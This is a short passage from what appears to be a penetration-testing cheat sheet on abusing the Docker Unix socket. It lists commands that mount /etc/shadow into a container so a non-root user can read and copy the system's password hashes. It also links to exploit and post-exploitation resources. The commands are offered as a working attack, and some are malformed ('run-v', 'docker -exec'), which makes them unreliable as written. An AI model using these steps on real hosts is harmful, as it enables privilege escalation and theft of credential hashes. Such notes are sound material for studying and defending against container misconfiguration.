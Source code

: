 #### Unix Socket Exploitation

Connecting to the docker socket (running as root) as user nonroot:
`docker run-v /etc/shadow:/docker/hashedpasswords -d postgres`
`docker -exec -ti {CONTAINER_ID} bash`
`cat /docker/hashedpasswords > /docker/test.txt`
`chmod 777 /docker/test.txt`
`cat /docker/test.txt`

[https://www.exploit-db.com/exploits/40962/](https://www.exploit-db.com/exploits/40962/)
[https://github.com/rapid7/metasploit-framework/pull/9408/files](https://github.com/rapid7/metasploit-framework/pull/9408/files)

[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List](https://github.com/mubix/post-exploitation/wiki/Linux-Post-Exploitation-Command-List)

***
***